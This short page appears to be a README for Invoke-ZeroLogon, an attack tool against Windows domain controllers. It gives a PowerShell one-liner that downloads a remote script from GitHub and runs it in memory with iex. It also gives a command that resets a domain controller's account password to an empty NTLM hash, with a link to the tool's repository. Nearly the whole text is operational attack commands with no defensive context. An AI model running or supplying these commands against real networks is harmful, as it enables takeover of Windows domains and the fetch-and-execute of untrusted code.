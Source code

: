 ### Download exploit
```
iex((New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/BC-SECURITY/Invoke-ZeroLogon/master/Invoke-ZeroLogon.ps1'))
```

### Reset password of domain controller to empty NTLM hash
```
Invoke-ZeroLogon <targetDomainController>
```

### References
https://github.com/BC-SECURITY/Invoke-ZeroLogon  

